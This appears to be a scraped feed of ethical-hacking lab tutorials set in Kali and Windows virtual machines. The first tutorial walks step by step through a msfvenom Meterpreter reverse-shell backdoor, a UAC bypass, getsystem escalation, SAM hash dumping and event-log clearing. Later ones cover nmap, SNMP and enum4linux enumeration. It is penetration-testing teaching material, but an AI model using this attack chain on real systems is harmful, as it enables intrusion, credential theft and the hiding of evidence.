<p>Once attackers gain access to the target system, they start looking for different ways to escalate their privilege in the system. They can exploit vulnerability, design flaw or configuration oversight in the OS or software applications on the target system to gain elevated access to resources that are normally protected from an application or user. The privilege escalation can be&nbsp;<strong>vertical</strong>&nbsp;or&nbsp;<strong>lateral</strong>.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Demonstrate how to escalate privileges on a victim machine by exploiting its vulnerabilities.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux virtual machine.</li>


<li>Windows 10 virtual machine.</li>
</ul>


<h2 class="wp-block-heading" id="create-a-backdoor">Create a Backdoor<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#create-a-backdoor"></a></h2>


<p>To create the malicious executable file, type this command and put your Kali IP address on&nbsp;<code>LHOST</code>&nbsp;option:</p>


<p><code>msfvenom -p windows/meterpreter/reverse_tcp --platform windows -a x86 -e x86/shikata_ga_nai -b "\x00" LHOST=10.0.2.42 -f exe &gt; Desktop/Exploit.exe</code></p>


<p>This command will create the Windows executable file named&nbsp;<strong>Exploit.exe</strong>&nbsp;and will be saved on the Kali&nbsp;<strong>desktop</strong>.</p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="share-the-exploitexe-file">Share the Exploit.exe file<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#share-the-exploitexe-file"></a></h2>


<p><strong>First</strong>&nbsp;of, we need to setup the apache configuration and the shared folder.</p>


<h3 class="wp-block-heading" id="apache-configuration">Apache configuration<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#apache-configuration"></a></h3>


<p><em>If you didn’t have apache2 installed, run&nbsp;<strong>apt-get install apache2</strong>.</em></p>


<p>Navigate to the apache2 folder, open the&nbsp;<strong>apache2.conf</strong>&nbsp;configuration file, and add a new line:<br><code>vim /etc/apache2/apache2.conf</code></p>


<p>Add a new line with the command:&nbsp;<code>servername localhost</code>&nbsp;and save the file.</p>


<figure class="wp-block-image"></figure>


<p>Create a new directory inside html folder:<br><code>mkdir /var/www/html/share/</code></p>


<p>Change the&nbsp;<a href="https://www.tutonics.com/2012/12/linux-file-permissions-chmod-umask.html">mode</a>&nbsp;for the share to&nbsp;<strong>755</strong>:<br><code>chmod -R 755 /var/www/html/share/</code></p>


<p>Change the ownership of that folder to&nbsp;<strong>www-data</strong>:<br><code>chown -R www-data:www-data /var/www/html/share/</code></p>


<p><em>To see the configuration of sharing options type:</em><br><code>ls -la /var/www/html/ | grep share</code></p>


<pre class="wp-block-code"><code>drwxr-xr-x 2 www-data www-data  4096 Dec 18 20:52 share
</code></pre>


<p>Now copy the malicious file to the shared location:<br><code>cp /root/Desktop/Test.exe /var/www/html/share/</code></p>


<p>Start the apache service to run the http server:<br><code>service apache2 start</code></p>


<h2 class="wp-block-heading" id="perform-exploitation">Perform Exploitation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#perform-exploitation"></a></h2>


<p>Start the Metasploit Framework by typing:</p>


<p><code>msfconsole</code></p>


<p>Select the&nbsp;<strong>multi/handler</strong>&nbsp;and set the payload to&nbsp;<strong>meterpreter/reverse_tcp</strong>:</p>


<p><code>use exploit/multi/handler</code><br><code>set payload windows/meterpreter/reverse_tcp</code></p>


<p>Set the&nbsp;<strong>LHOST</strong>&nbsp;to the Kali IP address:</p>


<p><code>set LHOST 10.0.2.42</code></p>


<p>Start the exploit on background:</p>


<p><code>exploit -j -z</code></p>


<pre class="wp-block-code"><code>&#91;*] Exploit running as background job 0.
&#91;*] Exploit completed, but no session was created.
&#91;*] Started reverse TCP handler on 10.0.2.42:4444 
</code></pre>


<h2 class="wp-block-heading" id="run-the-exploit">Run the Exploit<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#run-the-exploit"></a></h2>


<p>Switch to the&nbsp;<strong>Windows 10</strong>&nbsp;machine, launch the&nbsp;<strong>browser</strong>&nbsp;and type the URL:</p>


<p><code>http://10.0.2.42/share/</code>&nbsp;<em>(Change to the IP address of your your Kali).</em></p>


<figure class="wp-block-image"></figure>


<p>Click&nbsp;<strong>Exploit.exe</strong>&nbsp;to download the backdoor file. Once the file is downloaded navigate to the download location and open the file to execute.</p>


<p>If an&nbsp;<strong>Open File &#8211; Security Warning</strong>&nbsp;window appears, click&nbsp;<strong>Run</strong>.</p>


<figure class="wp-block-image"></figure>


<p>Switch back to the Kali machine. Meterpreter session has been successfully opened, as shown below:</p>


<pre class="wp-block-code"><code>&#91;*] Sending stage (180291 bytes) to 10.0.2.15
&#91;*] Meterpreter session 1 opened (10.0.2.42:4444 -&gt; 10.0.2.15:49804) at 2019-12-18 21:04:09 -0500
</code></pre>


<p>To interact with the available sessions, you can use the command&nbsp;<code>sessions</code>&nbsp;or&nbsp;<code>sessions -i</code>&nbsp;to list the current sessions opened.&nbsp;<strong>To open any session, select the ID by issuing the command:</strong></p>


<p><code>sessions &lt;ID&gt;</code></p>


<figure class="wp-block-image"></figure>


<h2 class="wp-block-heading" id="establish-a-session">Establish a Session<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#establish-a-session"></a></h2>


<p><a href="https://www.blueliv.com/downloads/Meterpreter_cheat_sheet_v0.1.pdf">[+] Meterpreter Cheat Sheet</a></p>


<p>Open the current Meterpreter session and type:</p>


<p><code>getuid</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: DESKTOP-ICB2IQ4\dummy  
</code></pre>


<p>You will notice that the Meterpreter server is running with the normal user privileges. You will not be able to execute command (such as&nbsp;<code>hashdump</code>, which dumps the user account hashes located in the&nbsp;<strong>SAM</strong>&nbsp;file;&nbsp;<code>clearev</code>, which clears the event logs remotely; and so on.) that requires administrative/root privileges.</p>


<p>Let’s check this out by executing this command:</p>


<p><code>run post/windows/gather/smart_hashdump</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; run post/windows/gather/smart_hashdump

&#91;*] Running module against DESKTOP-ICB2IQ4
&#91;*] Hashes will be saved to the database if one is connected.
&#91;+] Hashes will be saved in loot in JtR password file format to:
&#91;*] /root/.msf4/loot/20191218220106_default_10.0.2.15_windows.hashes_986306.txt
&#91;-] Insufficient privileges to dump hashes!
</code></pre>


<p><strong>[-] Insufficient privileges to dump hashes!</strong></p>


<p>The command fails to dump the hashes from the SAM file located in Windows 10 and returns an error stating that Insufficient Privileges to dump hashes.</p>


<p>From this, it is evident that Meterpreter server requires admin privileges to perform such actions.</p>


<p>Now, we can try to escalate the privileges by issuing a&nbsp;<code>getsystem</code>&nbsp;command that attempts to elevate the user privileges.</p>


<p><code>getsystem -t 1</code></p>


<p><em>which uses the Service &#8211;&nbsp;<a href="https://securityintelligence.com/identifying-named-pipe-impersonation-and-other-malicious-privilege-escalation-techniques/">Named Pipe Impersonation</a>&nbsp;(In Memory/Admin) Technique.</em></p>


<pre class="wp-block-code"><code>meterpreter &gt; getsystem -t 1
&#91;-] priv_elevate_getsystem: Operation failed: Access is denied. The following was attempted:
&#91;-] Named Pipe Impersonation (In Memory/Admin)
</code></pre>


<p>The command fails to escalate privileges and returns an error&nbsp;<strong>(Access is Denied).</strong></p>


<p>From the above result, it is evident that the security configuration of the Windows 10 machine is blocking you from gaining unrestricted access to it.</p>


<h2 class="wp-block-heading" id="perform-privilege-escalation">Perform Privilege Escalation<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/5-System-Hacking/5-Escalating-Privileges.html#perform-privilege-escalation"></a></h2>


<p>We can try to bypass the user account control setting that is blocking you from gaining unrestricted access to machine.</p>


<p>Move the current Meterpreter session to the background. Just type&nbsp;<code>background</code>.</p>


<p>Use the&nbsp;<strong>bypassuac_fodhelper</strong>&nbsp;exploit for Windows:<br><code>use exploit/windows/local/bypassuac_fodhelper</code></p>


<p>Type&nbsp;<code>options</code>&nbsp;to see the configurations, and you will observer theres only session setting, type&nbsp;<code>sessions</code>&nbsp;to see the ID of the previous meterpreter session and set to the current exploit:</p>


<p><code>set SESSION &lt;ID&gt;</code></p>


<p>Type&nbsp;<code>run</code>&nbsp;to exploit:</p>


<figure class="wp-block-image"></figure>


<p><strong>The BypassUAC exploit has successfully bypassed the UAC setting on the Windows 10 machine and another Meterpreter session has opened.</strong></p>


<p>Now, the first thing is check the current User ID status of Meterpreter by issuing&nbsp;<code>getuid</code>&nbsp;command. You will observe that Meterpreter server is still running with&nbsp;<strong>normal user privileges</strong>.</p>


<p><code>getuid</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: DESKTOP-ICB2IQ4\dummy  
</code></pre>


<p>At this stage, we shall re-issue the&nbsp;<code>getsystem</code>&nbsp;command with the&nbsp;<code>-t 1</code>&nbsp;switch, in an attempt to&nbsp;<strong>elevate the privileges</strong>.</p>


<p><code>getsystem -i 1</code></p>


<pre class="wp-block-code"><code>meterpreter &gt; getsystem -i 1

...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
</code></pre>


<p><strong>This time, the command has successfully escalated user privileges and returns a message stating got system, as shown above.</strong></p>


<p>Now, type&nbsp;<code>getuid</code>&nbsp;again.</p>


<pre class="wp-block-code"><code>meterpreter &gt; getuid
Server username: NT AUTHORITY\SYSTEM
</code></pre>


<p>The meterpreter session is now running with&nbsp;<strong>SYSTEM</strong>&nbsp;privileges (<strong>NT AUTHORITY\SYSTEM</strong>).</p>


<p>Let’s try to obtain the&nbsp;<strong>hashes</strong>&nbsp;located in the&nbsp;<strong>SAM</strong>&nbsp;file of Windows 10 by typing:</p>


<p><code>run post/windows/gather/smart_hashdump</code></p>


<figure class="wp-block-image"></figure>


<p>This time, the meterpreter successfully extracted the NTLM hashes and displayed them as shown in above. Thus, we have successfully escalated privileges by exploiting the Windows 10 machine’s vulnerabilities.</p>


<p><strong>You can now execute commands like (clearev, which clears the event logs remotely, etc)</strong></p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Vulnerability Scanning</title>
		<link>../../../2024/11/18/vulnerability-scanning/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:27:36 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[SQL, Botnets and XSS Attacks Tools and Resources]]></category>
		<guid isPermaLink="false">../../../index.html?p=8866</guid>

					<description><![CDATA[Vulnerability Scanning refers to auditing hosts, ports, and services running in a network to assess the security posture and search for security loopholes. It determines the possibility of network security....]]></description>
										<content:encoded><![CDATA[
<p></p>


<p>Vulnerability Scanning refers to auditing hosts, ports, and services running in a network to assess the security posture and search for security loopholes.</p>


<p>It determines the possibility of network security attacks, evaluating the organization’s systems and network for vulnerabilities such as missings patches, unnecessary services, weak authentication, and weak encryption. Vulnerability scanning is a critical component of any penetration testing assignment.</p>


<h2 class="wp-block-heading" id="nessus">Nessus<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#nessus"></a></h2>


<figure class="wp-block-image"></figure>


<p>Nessus allows to remotely audit a network and determine if it has been broken into or misued in some way. It also provides the ability to locally audit a specific machine for vulnerabilities.</p>


<p>Official website: https://www.tenable.com/downloads/nessus</p>


<h2 class="wp-block-heading" id="gfi-languard">GFI LanGuard<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#gfi-languard"></a></h2>


<figure class="wp-block-image"></figure>


<p>GFI LanGuard is a software similar to Nessus, it scans networks and ports to detect, assess, and correct any security vulnerabilities found.</p>


<p>Official website: https://www.gfi.com/products-and-solutions/network-security-solutions/gfi-languard</p>


<h2 class="wp-block-heading" id="nikto">Nikto<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/4-Vulnerability-Analysis/Overview-and-Tools.html#nikto"></a></h2>


<figure class="wp-block-image"></figure>


<p>Nikto Web Scanner is a Web server scanner that tests Web servers for dangerous file/CGIs, outdated server software and other problems.</p>


<p>Nikto is an Open Source (GPL) web server which performs comprehensive tests against web servers for multiple items, including over 6400 potentially dangerous files/CGIs, checks for outdated versions of over 1200 servers, and version specific problems on over 270 servers. It also scans server configuration items such as the presence of multiple index files, HTTP server options, and attempts to identify installed web servers and software. Scan items and plugins are frequently updated and can be automatically updated. Nikto is not a stealth tool, it scans a webserver in the shortest time but gets logged in an IDS.</p>


<p>Official repository: https://github.com/sullo/nikto</p>


<p></p>
]]></content:encoded>
					
		
		
			</item>
		<item>
		<title>Network Enumeration</title>
		<link>../../../2024/11/18/network-enumeration/index.html</link>
		
		<dc:creator><![CDATA[]]></dc:creator>
		<pubDate>Mon, 18 Nov 2024 10:21:08 +0000</pubDate>
				<category><![CDATA[Ethical Hacking With Kali Linux]]></category>
		<category><![CDATA[Ethical Hacking, Botnets, MAC Flooding, ARP Attacks, DDos, Sniffing & Penetration Testing.]]></category>
		<guid isPermaLink="false">../../../index.html?p=8863</guid>

					<description><![CDATA[What is Enumeration? Enumeration is the process of extracting user names, machine names, network resources, shares, and services from a system, and its conducted in an intranet environment. In this....]]></description>
										<content:encoded><![CDATA[
<h1 class="wp-block-heading" id="what-is-enumeration">What is Enumeration?</h1>


<p>Enumeration is the process of extracting user names, machine names, network resources, shares, and services from a system, and its conducted in an intranet environment.</p>


<p>In this phase, the attacker creates an active connection to the system and performs directed queries to gain more information about the target. The gathered information is used to identify the vulnerabilities or weak points in system security and tries to exploit in the System gaining phase.</p>


<h1 class="wp-block-heading" id="enumerating-services">Enumerating Services</h1>


<p>Extracting user names, machine names, network resources, shares, and services from a system.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#objectives"></a></h3>


<ul class="wp-block-list">
<li>Scan all the machines on a given network or subnet.</li>


<li>List all alive hosts.</li>


<li>Determine open ports on a given node.</li>


<li>Find if any port has firewall restriction.</li>


<li>Enumerate all the services running on the port along with their respective versions.</li>
</ul>


<h3 class="wp-block-heading" id="requisites">Requisites:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#requisites"></a></h3>


<ul class="wp-block-list">
<li>Windows Server 2012 or 2016 machine.</li>


<li>Kali Linux machine.</li>


<li>Another version of Windows (7, 8, 10 or Server).</li>
</ul>


<h2 class="wp-block-heading" id="ping-sweep---nmap">Ping Sweep &#8211;&nbsp;<code>Nmap</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#ping-sweep---nmap"></a></h2>


<p>You can perform a ping sweep in Nmap by using ping scan only (<code>-sP</code>) on the whole subnet.</p>


<p>The ping sweep on Nmap will scan all the nodes on the subnet and starts displaying all the hosts that are up and running, along with their respective MAC Addresses and device information.</p>


<p>Open a new Terminal window on your Kali Linux and type::</p>


<p><code>nmap -sP 10.0.2.1/24</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.1
Host is up (0.0011s latency).
MAC Address: 22:44:99:33:11:55 QEMU virtual NIC)
Nmap scan report for 10.0.2.2
Host is up (0.00084s latency).
MAC Address: 22:44:99:33:11:55 (QEMU virtual NIC)
Nmap scan report for 10.0.2.3
Host is up (0.00097s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.22
Host is up (0.00075s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.23
Host is up (0.00066s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.37
Host is up (0.00051s latency).
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
Nmap scan report for 10.0.2.15
Host is up.
Nmap done: 256 IP addresses (7 hosts up) scanned in 2.29 seconds
</code></pre>


<h2 class="wp-block-heading" id="ping-sweep---bash">Ping Sweep &#8211;&nbsp;<code>Bash</code><a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#ping-sweep---bash"></a></h2>


<p>I will show another way to check live hosts on the subnet with a little bit of&nbsp;<strong>Bash scripting</strong>. You can scroll to the next section if you are not interested.</p>


<h3 class="wp-block-heading" id="1-test-the-one-liner-command-to-grab-only-ip-addresses">1. Test the one-liner command to grab only IP addresses<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#1-test-the-one-liner-command-to-grab-only-ip-addresses"></a></h3>


<p>First of, I will use the&nbsp;<code>ping</code>&nbsp;command on a given subnet range, to check if the hosts are alive.<br><strong>The goal is: ping every single host on a given range with a clean output for it.</strong></p>


<p>The clean output part is because when we use&nbsp;<code>ping</code>&nbsp;command, they return a bunch of strings, the goal is remove all the unnecessary information and stick only to the IP addresses.&nbsp;<strong>Example:</strong></p>


<p><code>ping -c 1 8.8.8.8</code></p>


<pre class="wp-block-code"><code>PING 8.8.8.8 (8.8.8.8) 56(84) bytes of data.
64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=155 ms
--- 8.8.8.8 ping statistics ---
1 packets transmitted, 0 received, 100% packet loss, time 0ms
</code></pre>


<p>We only need the second line of this output starting with&nbsp;<strong>“64 bytes(…)”</strong>&nbsp;that have the IP address of the alive host.</p>


<pre class="wp-block-code"><code>64 bytes from 8.8.8.8: icmp_seq=2 ttl=54 time=155 m
</code></pre>


<p><strong>Grabbing only IP addresses:</strong></p>


<p><code>ping -c 5 8.8.8.8 | grep "64" | cut -d " " -f 4 | tr -d ":" ; &gt; iptest.txt</code></p>


<pre class="wp-block-code"><code>8.8.8.8
8.8.8.8
8.8.8.8
8.8.8.8
8.8.8.8
</code></pre>


<p>Breaking down the one-liner command (by pipe):</p>


<ol class="wp-block-list">
<li>Ping the IP 5 times;</li>


<li>Grep the first string characters of the line (<strong>64</strong> bytes…);</li>


<li>Cut the whitespaces on 4 slices to reach the IP string;</li>


<li>Use translate command to trim/delete the “:” symbol;</li>


<li>Export the results to a .txt file;</li>
</ol>


<h3 class="wp-block-heading" id="2-transforming-into-script">2. Transforming into script<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#2-transforming-into-script"></a></h3>


<ol class="wp-block-list">
<li>Create a file .sh (pingsweep.sh)</li>
</ol>


<pre class="wp-block-code"><code><em>#!/bin/bash </em>
 
<strong>if</strong> <strong>&#91;</strong> "$1" <strong>==</strong> "" <strong>]</strong>
<strong>then
</strong>echo "&#91;-] You forgot the IP address!"
echo "&#91;-] Syntax: ./ipsweep.sh 10.10.10"

<strong>else
for </strong>ip <strong>in</strong> `seq 1 254`; <strong>do 
</strong>ping -c 1 $1.$ip | grep "64 bytes" | cut -d " " -f 4 | tr -d ":" &amp;
<strong>done
fi</strong>
</code></pre>


<p>Is more convenient to take the user’s input on the first three octets and the last octet is the loop (1 &#8211; 254).<br><strong>Input example: 192.168.1</strong></p>


<p>The script below is very barebone, have one conditional statement for grab the correct user’s input, a loop through the subnet range, and the one-liner command using the user’s input with the loop variable.</p>


<ol class="wp-block-list">
<li>Save the file, change the permissions and make executable:</li>
</ol>


<p><code>chmod 770 pingsweep.sh</code><br><code>chmod +x pingsweep.sh</code></p>


<ol class="wp-block-list">
<li>Test it out:</li>
</ol>


<p><code>./pingsweep.sh 10.0.2 &gt; ping-results.txt</code><br><code>cat ping-results.txt</code></p>


<pre class="wp-block-code"><code>10.0.2.3
10.0.2.1
10.0.2.15
10.0.2.22
10.0.2.23
10.0.2.37
</code></pre>


<h2 class="wp-block-heading" id="perform-stealth-syn-scan">Perform Stealth Syn Scan<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#perform-stealth-syn-scan"></a></h2>


<p>Now, choose and IP address from the results, and perform a&nbsp;<strong>stealthy syn scan</strong>&nbsp;on&nbsp;<strong>Nmap</strong>.</p>


<p><code>nmap -sS &lt;Target IP Address&gt;</code></p>


<pre class="wp-block-code"><code>...
Host is up (0.00092s latency).
Not shown: 977 closed ports
PORT      STATE SERVICE
53/tcp    open  domain
80/tcp    open  http
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
443/tcp   open  https
...
</code></pre>


<p>SYN scan is the default and most popular scan option for good reason. It can be performed quickly, scanning thousands of ports per second on a fast network not hampered by intrusive firewalls.</p>


<h2 class="wp-block-heading" id="stealth-syn-scan-with-version-and-os-detection">Stealth Syn Scan with Version and OS Detection<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#stealth-syn-scan-with-version-and-os-detection"></a></h2>


<p>Version Detection collects information about the specific service running on an open port, including the product name and version number. This information can be critical in determining an entry point for an attack</p>


<p>Nmap will perform a stealth scan with version detection along with OS detection.</p>


<p><code>nmap -sSV -O &lt;Target IP Address&gt; -oN Enumeration.txt</code></p>


<pre class="wp-block-code"><code>Host is up (0.0017s latency).
Not shown: 977 closed ports
PORT      STATE SERVICE            VERSION
53/tcp    open  domain?
80/tcp    open  http               Microsoft IIS httpd 8.5
88/tcp    open  kerberos-sec       Microsoft Windows Kerberos (server time: 2019-12-06 20:56:57Z)
135/tcp   open  msrpc              Microsoft Windows RPC
139/tcp   open  netbios-ssn        Microsoft Windows netbios-ssn
389/tcp   open  ldap               Microsoft Windows Active Directory LDAP (Domain: Lab.local, Site: Default-First-Site-Name)
443/tcp   open  ssl/https?
</code></pre>


<p>The&nbsp;<code>-oN</code>&nbsp;stands for output / export the results into a text file that will save in your home /root/ directory with name&nbsp;<code>Enumeration.txt</code>.</p>


<hr class="wp-block-separator has-alpha-channel-opacity"/>


<h3 class="wp-block-heading" id="conclusion">Conclusion<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/1-Enumerating-with-Nmap.html#conclusion"></a></h3>


<p>By performing services enumeration, an attacker might attempt to find vulnerabilities associated with that particular application and exploit them to gain access to the target machine.</p>


<h1 class="wp-block-heading" id="snmp-enumeration-using-snmp_enum">SNMP Enumeration using&nbsp;<code>snmp_enum</code></h1>


<p><strong>snmp_enum</strong>&nbsp;module in Metasploit allows enumeration of any devices with SNMP protocol support. It supports hardware, software, and network information. The default community used is ‘public’.</p>


<p>SNMP enumeration is the process of enumerating the users accounts and devices on a SNMP enabled computer.</p>


<p>SNMP service comes with two passwords, which are used to configure and access the SNMP agent from the management station. They are: Read community string and Read/Write community string. These strings (passwords) come with a default value, which is same for all the systems. They become easy entry points for attackers if left unchanged by administrator.</p>


<p>Attackers enumerate SNMP to extract information about network resources such as hosts, routers, devices, shares(…) Network information such as ARP tables, routing tables, device specific information and traffic statistics.</p>


<h3 class="wp-block-heading" id="objectives">Objectives:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#objectives"></a></h3>


<p>Enumeration:</p>


<ul class="wp-block-list">
<li>Connected devices</li>


<li>Hostname and information</li>


<li>Domain</li>


<li>Hardware and storage information</li>


<li>Software components</li>


<li>Total memory</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements:<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux machine (Attacker)</li>


<li>Windows Server 2012 / 2016 (Victim/Target)</li>


<li>Ubuntu <a href="https://www.vulnhub.com/entry/bwapp-bee-box-v16,53/">BeeBox</a> (Victim/Target)</li>
</ul>


<h2 class="wp-block-heading" id="test-for-snmp-port-status">Test for SNMP Port Status<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#test-for-snmp-port-status"></a></h2>


<p>First we need to find out whether the SNMP port is opened.&nbsp;<strong>SNMP uses port 161 by default</strong>. To check this information, we first need to run Nmap port scan.</p>


<p><strong>Note</strong>: Remember to activate the SNMP service on your Windows Server.</p>


<p><code>-sU</code>: Scans UDP port.<br><code>-p</code>: Port scan range.</p>


<p><code>nmap -sU -p 161 &lt;Target IP Address&gt;</code></p>


<pre class="wp-block-code"><code>Nmap scan report for 10.0.2.38
Host is up (0.00070s latency).

PORT    STATE SERVICE
161/udp open  snmp
MAC Address: 11:22:33:44:55:66 (Oracle VirtualBox virtual NIC)
</code></pre>


<h2 class="wp-block-heading" id="enumerate-community-string">Enumerate Community String<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/2-SNMP-Enumeration.html#enumerate-community-string"></a></h2>


<p>To perform SNMP enumeration, you have many tools available.<br>This tutorial demonstrate two ways to do the same thing: using&nbsp;<strong>Metasploit</strong>&nbsp;and&nbsp;<strong>snmp-check</strong>.</p>


<p>On Metasploit, you can use&nbsp;<strong>snmp_enum</strong>&nbsp;module:</p>


<p><code>auxiliary/scanner/snmp/snmp_enum</code></p>


<p>The other way to do this is to use snmp-check.<br>snmp-check is a package built-in on Kali Linux, just open the terminal and type:</p>


<p><code>snmp-check &lt;Target IP Address&gt;</code></p>


<p>Both methods enumerates the target machine information, and retrieve the same&nbsp;<strong>comprehensive list</strong>&nbsp;displaying the&nbsp;<strong>System Information</strong>. These tools supports the following enumerations:</p>


<ul class="wp-block-list">
<li>Host IP</li>


<li>Hostname</li>


<li>Hardware description</li>


<li>System uptime</li>


<li>SNMP uptime</li>


<li>Domain if system is connected in Domain</li>


<li>User Accounts</li>


<li>MAC Addresses</li>


<li>Running Processes</li>


<li><a href="https://tools.kali.org/information-gathering/snmp-check">Etc</a></li>
</ul>


<h1 class="wp-block-heading" id="enumerating-windows-and-samba-using-enum4linux">Enumerating Windows and Samba using Enum4linux</h1>


<p>A Linux alterantive to enum.exe for enumerating data from Windows and Samba hosts.</p>


<p>Enum4linux is a tool for enumerating information from Windows and Samba systems. As a security person you have to secure process where the attacker can establish an active connection with the victim and try to discover as many attack vectors as possible, which can be used to exploit the systems further.</p>


<h3 class="wp-block-heading" id="objectives">Objectives<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#objectives"></a></h3>


<p>Enumeration:</p>


<ul class="wp-block-list">
<li>Connected Devices</li>


<li>Hostname and information</li>


<li>Domain</li>


<li>Hardware and storage information</li>


<li>Software Components</li>


<li>Total Memory</li>
</ul>


<h3 class="wp-block-heading" id="requirements">Requirements<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#requirements"></a></h3>


<ul class="wp-block-list">
<li>Kali Linux (Attacker)</li>


<li>Windows Server 2012 R2 (Target)</li>
</ul>


<h2 class="wp-block-heading" id="get-user-info">Get user info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-user-info"></a></h2>


<p>Go to the Kali Linux and Open a new Terminal window.<br>Type&nbsp;<code>enum4linux -h</code>&nbsp;to view the options.</p>


<p>Next, type some existing credentials:</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -U 10.0.2.23</code></p>


<p>-u: Username, -p Password, -U users information</p>


<p>The enum4linux starts enumerating the workgroups/domains first and displays the results all the results.</p>


<p>It lists out the Users info with their respective RIDs as show below:</p>


<pre class="wp-block-code"><code>index: 0xf4d RID: 0x1f4 acb: 0x00000010 Account: Administrator  Name: (null)    Desc: Built-in account for administering the computer/domain
index: 0x1025 RID: 0x453 acb: 0x00000014 Account: bobby Name: Bobby     Desc: (null)
index: 0x1024 RID: 0x452 acb: 0x00000010 Account: CEH   Name: (null)    Desc: (null)
index: 0xf4e RID: 0x1f5 acb: 0x00000214 Account: Guest  Name: (null)    Desc: Built-in account for guest access to the computer/domain
index: 0xf85 RID: 0x1f6 acb: 0x00020011 Account: krbtgt Name: (null)    Desc: Key Distribution Center Service Account
index: 0x102b RID: 0x459 acb: 0x00000010 Account: shmurdance    Name: (null)    Desc: (null)
</code></pre>


<h2 class="wp-block-heading" id="get-os-info">Get OS info<a href="https://julisunkan.github.io/Network-Servers-Penetration-Guides-and-Tools/3-Enumeration/3-Enum4linux-Win-and-Samba-Enumeration.html#get-os-info"></a></h2>


<p>This option enumerates the target system and lists out its OS details as show below</p>


<p><code>enum4linux -u CEH -p Pa55w.rd -o 10.0.2.23</code></p>


<p>-o: Get OS information</p>


<pre class="wp-block-code"><code> =================================== 
|    OS information on 10.0.2.23    |
 =================================== 
Use of uninitialized value $os_info in concatenation (.) or string at ./enum4linux.pl line 464.
&#91;+] Got OS info for 10.0.2.23 from smbclient: 
&#91;+] Got OS info for 10.0.2.23 from srvinfo:
        10.0.2.23      Wk Sv Sql PDC Tim NT 
        platform_id     :       500
        os version      :       6.3
        server type     :       0x80102f
